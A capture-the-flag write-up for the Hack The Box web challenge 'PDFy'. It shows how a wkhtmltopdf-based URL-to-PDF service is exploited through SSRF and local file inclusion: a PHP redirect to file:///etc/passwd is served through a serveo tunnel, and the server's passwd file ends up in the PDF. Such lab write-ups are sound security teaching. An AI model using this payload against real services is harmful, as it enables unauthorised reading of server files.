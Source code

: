 # [PDFy](https://app.hackthebox.com/challenges/PDFy) Writeup [HTB]
_Web_

## Investigating the website
This is a black box challenge, meaning we don't have access to the website code. Therefore, I begin with analyzing its behavior.
It's a simple website that takes a URL as input and returns its PDF version, computing it server-side.

Since I know from the challenge description that the flag is in `/etc/passwd`, my first attempt is simply entering the URL:
```
file:///etc/passwd
```
This attempt doesn't work, as the website returns me a "URL malformed" response.

I then try to send a random, non-existent URL. This provides me with a very interesting result:
```
Request:
    "url":"http://sjdfhdjfh"
Response:
    "level": "error"
    "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'http://sjdfhdjfh', 'application/static/pdfs/07727dc8981945ff4d8a5d4c2c76.pdf']' returned non-zero exit status 1."
```
I now have the tool name!

## Breaking the PDF-ification
I immediately search for some known `wkhtmltopdf` exploits on the Internet, and I find out that it's vulnerable to local file inclusion (LFI) and server-site request forgery (SSRF). I also find [this interesting exploit](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/), which I adapt to my use-case to get the file.

The exploit is composed of three parts.

### 1 > Preparing the malicious file
First, I need to craft a not-suspicious-at-all file, referencing `/etc/passwd`. Let's call it `sus.php`.
```html
<!DOCTYPE html>
<html>
<body>
    <?php header('location:file:///etc/passwd'); ?>
</body>
</html>
```
When this file is transformed in PDF on the server side, it will automatically include the content of `/etc/passwd`.

### 2 > Exposing the malicious file
Now that the file is ready, we need to expose it to the Internet, for our website to access it. 
To do so, I first create a php server on `localhost`:
```sh
php -S localhost:8000
```
I then use [serveo](https://serveo.net/) to expose this local server.

### 3 > Generate the PDF!
Finally, it's time to generate! I prepare the URL and feed it to PDFy:
```
https://e794c1568d1a1ad10d344a9ab47cb330.serveo.net/sus.php
```
I download the resulting PDF, open it, and get the flag!
